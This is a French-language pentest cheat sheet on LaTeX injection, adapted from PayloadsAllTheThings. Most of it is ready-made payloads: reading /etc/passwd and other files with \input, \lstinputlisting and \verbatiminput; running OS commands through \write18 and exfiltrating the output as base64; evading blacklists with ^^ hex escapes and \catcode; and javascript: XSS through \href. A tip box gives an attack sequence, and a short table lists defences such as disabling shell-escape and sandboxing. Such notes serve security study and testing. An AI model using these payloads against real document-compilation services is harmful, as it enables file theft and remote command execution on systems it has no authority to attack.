

# LaTeX Injection

> [!info] **En 1 phrase**
> LaTeX Injection = injecter des **commandes TeX** dans un document compilé par un moteur LaTeX
> (PDFLaTeX, etc.) pour **lire/écrire des fichiers** ou **exécuter des commandes OS** via `\write18`
> quand l'option `shell-escape` est activée.
>
> Source principale : **[PayloadsAllTheThings (swisskyrepo)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LaTeX%20Injection/README.md)**

---

## Concept



> [!info] **Pourquoi ça marche**
> LaTeX est un **langage de scripting** complet : `\input{...}`, `\read`, `\write18` (avec
> `shell-escape`) permettent d'interagir avec le système de fichiers et l'OS. Souvent utilisé
> dans des apps de génération de PDF/rapports (factures, CV, math) qui compilent du contenu
> utilisateur sans le neutraliser.

---

## Lecture de fichiers

### Interprétation du contenu (lire + compiler le code qu'il contient)

```tex
\input{/etc/passwd}
\include{somefile}    % charge un fichier .tex
```

### Lire un fichier sur une seule ligne

```tex
\newread\file
\openin\file=/etc/issue
\read\file to\line
\text{\line}
\closein\file
```

### Lire un fichier multi-lignes

```tex
\lstinputlisting{/etc/passwd}

\newread\file
\openin\file=/etc/passwd
\loop\unless\ifeof\file
    \read\file to\fileline
    \text{\fileline}
\repeat
\closein\file
```

### Lire sans interpréter (contenu brut)

```tex
\usepackage{verbatim}
\verbatiminput{/etc/passwd}
```

> [!tip] `\verbatiminput` évite les erreurs de compilation si le fichier contient des
> caractères spéciaux (`$`, `#`, `_`, `&`, octets nuls...).

### Point d'injection après le préambule (`\usepackage` indisponible)

Désactiver le catcode des caractères spéciaux pour pouvoir `\input` un fichier brut (ex: script perl) :

```tex
\catcode `\$=12
\catcode `\#=12
\catcode `\_=12
\catcode `\&=12
\input{path_to_script.pl}
```

---

## Écriture de fichiers

```tex
\newwrite\outfile
\openout\outfile=cmd.tex
\write\outfile{Hello-world}
\write\outfile{Line 2}
\write\outfile{I like trains}
\closeout\outfile
```

> Combinable avec `\write18` pour déposer un script/webshell puis l'exécuter.

---

## Exécution de commandes (`\write18`)

> Nécessite le flag `shell-escape`** (aka `--enable-write18`) au moment de la compilation.
> Sans lui, `\write18` est ignoré (mais il vaut toujours le tester !).

La sortie part sur **stdout** (pas dans le PDF) → rediriger vers un fichier temporaire puis le lire :

```tex
\immediate\write18{id > output}
\input{output}
```

Si une erreur LaTeX survient (caractères spéciaux dans la sortie), passer par **base64** :

```tex
\immediate\write18{env | base64 > test.tex}
\input{text.tex}
```

Variantes via pipe avec `\input` :

```tex
\input|ls|base64
\input{|"/bin/hostname"}
```

---

## Variantes et contournements

### Contourner une blacklist de commandes

- Utiliser la **valeur hexadécimale** `^^` d'un caractère dans le nom de commande :
  - `^^41` = un `A` majuscule
  - `^^7e` = un tilde `~` (attention : le `e` doit être en **minuscule**)

```tex
\lstin^^70utlisting{/etc/passwd}
```

- Casser le nom de commande pour contourner un grep : `\write18` devient `\wri^^74e18`
  (`t` = `^^74`).

### Neutraliser les caractères spéciaux avec `\catcode`

```tex
\catcode `\&=12     % & devient un caractère "normal"
\catcode `\#=12     % # idem
\catcode `\$=12
\catcode `\_=12
\input{raw_script.pl}
```

### `\string` et échappements

- `\string\write18` affiche `\write18` **sans l'interpréter** → utile pour tester la présence
  d'un filtre sans déclencher l'exécution, ou pour écrire la séquence dans un fichier.
- Échappement classique : `\\`, `\{`, `\}` pour écrire des accolades littérales.
- Combinaisons `^^` + `\string` permettent de reconstruire une commande filtrée caractère par
  caractère.

---

## XSS via LaTeX (rendu HTML / MathJax)

Quand le document est rendu en HTML (MathJax, retex, éditeurs en ligne) :

```tex
\url{javascript:alert(1)}
\href{javascript:alert(1)}{placeholder}
```

Dans MathJax (extension unicode) :

```tex
\unicode{">}
```

---

## Détection & Défense

| Réponse | Détail |
|---|---|
| **Désactiver `shell-escape`** | Compiler SANS `--enable-write18` : `\write18` est neutralisé |
| **Restreindre les commandes autorisées** | `--shell-restricted` (liste blanche) au lieu de tout autoriser |
| **Neutraliser les entrées** | Échapper `\`, `{`, `}` et le `$` ; refuser `\input`, `\include`, `\write18` dans le contenu utilisateur |
| **Bac à sable (sandbox)** | Compiler dans un conteneur/VM sans accès aux fichiers sensibles |
| **Limiter les fichiers lisibles** | Conteneur minimaliste : pas de `/etc/passwd`, pas de config app |
| **Surveillance** | Logs des commandes exécutées (shell-escape), alertes sur lectures de fichiers hors du projet |

---

## Tips & Pièges

> [!tip] **Ordre logique d'attaque**
> 1. Tester `\input{/etc/passwd}` (fichier lisible ?) → 2. Tester `\immediate\write18{id}`
> (shell-escape actif ?) → 3. Exfiltrer via base64 + `\input` ou un reverse shell.

> [!warning] **Pièges**
> - Sans `shell-escape`, `\write18` ne fait **rien** → vérifier d'abord avec un `\input` de fichier.
> - `\input` **interprète** le contenu : un fichier avec `$`, `#`, `_`, `&` casse la compilation →
>   utiliser `\verbatiminput` ou `\catcode` avant.
> - La sortie de `\write18` part en **stdout** (logs), pas dans le PDF → toujours rediriger
>   (`> fichier`) puis `\input`.
> - Les `^^` hexadécimaux (`^^70` = `p`) cassent les filtres basés sur les noms de commandes.
> - Le rendu **HTML/MathJax** du même contenu peut donner une XSS (fonctions `\url`, `\href`, `\unicode`).

---

## Liens

- [[LFI et RFI| LFI / RFI]]
- [[Injection de commandes| Injection de commandes]]
- → Note complète : [[03 - Exploitation Web| Exploitation Web]]
- Source : [PayloadsAllTheThings — LaTeX Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LaTeX%20Injection/README.md)
